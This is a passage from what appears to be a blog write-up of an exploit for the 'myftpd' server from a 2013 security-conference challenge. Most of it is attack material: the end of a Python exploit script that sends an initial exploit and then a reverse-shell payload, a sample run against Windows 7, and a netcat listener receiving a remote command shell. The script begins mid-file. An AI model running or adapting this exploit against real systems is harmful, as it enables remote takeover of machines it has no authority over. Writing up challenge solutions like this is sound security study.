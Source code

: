 ``` python Final Exploit
]

if len(sys.argv) != 5:
  print "Usage: {0} <target> <host> <port> <payload>".format(sys.argv[0])
  print "   Targets:"
  for i in range(0, len(targets)):
    print "     {0}: {1}".format(i, targets[i]['Name'])
  print "Eg. {0} 0 127.0.0.1 21 revshell.bin".format(sys.argv[0])
  sys.exit(1)

target = targets[int(sys.argv[1])]
host = sys.argv[2]
port = int(sys.argv[3])
payload_file = sys.argv[4]

print "[*] Attacking {0} at {1}:{2} ...".format(target['Name'], host, port)
command = target['Func'](target)

# send the initial exploit
pwn(command, port)
# wait a sec for the port to be bound
time.sleep(1)
# Send the payload on the bind port
pwn(read_file(payload_file), port + 1, False)

```

Execution looks like this:

``` bash Exploit execution
$ ./myftpd.py                                 
Usage: ./myftpd.py <target> <host> <port> <payload>
   Targets:
     0: Windows XP SP3
     1: Windows 7
Eg. ./myftpd.py 0 127.0.0.1 21 revshell.bin
$ ./myftpd.py 1 10.1.10.32 21 revshell4444.bin
[*] Attacking Windows 7 at 10.1.10.32:21 ...
[*] Sending 458 bytes to 10.1.10.32:21...
[*] Sending 341 bytes to 10.1.10.32:22...
```

And the listener results in this:

``` text Listener
$ nc -lvp 4444
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.1.10.32.
Ncat: Connection from 10.1.10.32:50572.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\OJ\Desktop>systeminfo
systeminfo

Host Name:                 WIN-S45GUQ5KGVK
OS Name:                   Microsoft Windows 7 Ultimate 
OS Version:                6.1.7601 Service Pack 1 Build 7601
... snip ...
```


  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization